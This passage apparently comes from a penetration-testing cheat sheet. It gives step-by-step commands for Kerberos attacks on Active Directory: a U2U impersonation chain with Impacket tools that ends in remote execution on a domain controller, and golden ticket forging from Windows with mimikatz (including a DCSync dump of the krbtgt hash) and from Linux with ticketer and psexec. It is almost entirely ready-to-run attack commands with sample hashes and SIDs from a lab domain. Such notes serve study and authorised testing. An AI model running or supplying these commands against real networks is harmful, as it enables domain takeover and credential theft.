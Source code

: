 Get ticket session key so KDC can decrypt TGT

```bash
describeTicket.py beth.richards.ccache | grep 'Ticket Session Key'
```

Change user's password

```bash
changepasswd.py ZENCORP.LOCAL/john.doe@10.129.205.35 -hashes :de3d16603d7ded97bb47cd6641b1a392 -newhash :7c3d8b8b135c7d574e423dcd826cab58
```

Request TGS

```bash
KRB5CCNAME=beth.richards.ccache getST.py -u2u -impersonate Administrator -spn TERMSRV/DC01.INLANEFREIGHT.LOCAL -no-pass ZENCORP.LOCAL/john.doe -dc-ip 10.129.205.35
```

Acces the DC

```bash
KRB5CCNAME=Administrator@TERMSRV_DC01.ZENCORP.LOCAL@ZENCORP.LOCAL.ccache wmiexec.py DC01.ZENCORP.LOCAL -k -no-pass
```

### <mark style="color:yellow;">Golden ticket from Windows</mark>

To forge a golden ticket you need: Domain name, Domain SID, Username to impersonate, KRBTGT's hash.

Get SID and get KRBTGT hash with mimikatz

```powershell
# SID
Get-DomainSID

# Get KRBTGT hash
lsadump::dcsync /user:krbtgt /domain:zencorp.local
```

Then forge a golden ticket

```powershell
kerberos::golden /domain:zencorp.local /user:Administrator /sid:S-1-5-21-2974783224-3764228556-2640795941 /rc4:810d754e118439bab1e1d13216150299 /ptt
```

Connect to DC01 using WinRM

```powershell
Enter-PSSession dc01
```

### <mark style="color:yellow;">Golden ticket from Linux</mark>

```bash
# Get SID
lookupsid.py zencorp.local/zen@dc01.zencorp.local -domain-sids

# Craft golden ticket
ticketer.py -nthash 810d754e118439bab1e1d13216150299 -domain-sid S-1-5-21-2974783224-3764228556-2640795941 -domain zencorp.local Administrator

# Get access
export KRB5CCNAME=./Administrator.ccache
psexec.py -k -no-pass dc01.zencorp.local
```
